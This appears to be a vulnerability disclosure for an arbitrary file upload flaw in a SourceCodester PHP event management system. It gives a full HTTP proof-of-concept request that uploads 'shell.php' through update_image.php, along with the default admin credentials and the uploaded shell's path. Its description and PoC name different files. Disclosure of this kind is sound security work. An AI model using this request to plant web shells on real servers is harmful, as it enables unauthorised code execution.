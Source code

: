 # RCE-2

## Vulnerability Description

Arbitrary file upload vulnerability in SourceCodester [Event Management System Project in PHP with Source Code](https://www.sourcecodester.com/php/15238/event-management-system-project-php-source-code.html) allows attackers to execute arbitrary code via the file upload to add-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/).

1. BUG_Author:  hjhctzz
2. vendors: [Event Management System Project in PHP with Source Code](https://www.sourcecodester.com/php/15238/event-management-system-project-php-source-code.html);
3. The program is built using the  PHP 7.3.4nts version;
4. Vulnerability location: /royal_event/update_image.php?id=2

# Vulnerability Verification

[+] Payload:

```
<?php phpinfo();?>
```

POC：

```http
POST http://localhost/royal_event/update_image.php?id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------272036942240946147034040939723
Content-Length: 493
Origin: http://localhost
Connection: close
Referer: http://localhost/royal_event/update_image.php?id=2
Cookie: PHPSESSID=13o927b44gh33i0a70b00sc0ac
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="productName"

Nikhil Bhalerao
-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="productimage1"; filename="shell.php"
Content-Type: text/plain

<?php phpinfo();?>
-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="submit"


-----------------------------272036942240946147034040939723--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（username: ndbhalerao91@gmail.com  Password: admin）;

3.Shell Path:   **/royal_event/update_image.php?id=2**

The vulnerability lies in the "Profile - Update " function, you shuold inserts Payload when you update photo，as shown in the following figure：

​![image-20240401102413-9l400b7](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/406fd491-c032-468f-95e7-a9959eaf2174)

![image-20240401102427-ktw9pwd](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/debe3496-cd7f-4bdc-9655-3196e6e71e95)

​![image-20240401102534-au2nx9s](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/4c98c8be-734c-492f-82c3-b0c517a492f3)

​![image-20240401102525-riq2785](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/98ba266f-47cd-423a-9a4b-4a9999279ce2)


/royal_event/assets/img/profileimages/shell.php

​![image-20240401102359-sjxzrdm](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/e37e5e86-f9ef-4e83-ba8e-46f68390397e)

![image-20240401102324-ksh6hn8](https://github.com/ycxdzj/CVE_Hunter/assets/159221768/6f32840a-73e7-41b5-87cb-aca66ad18ba5)

​
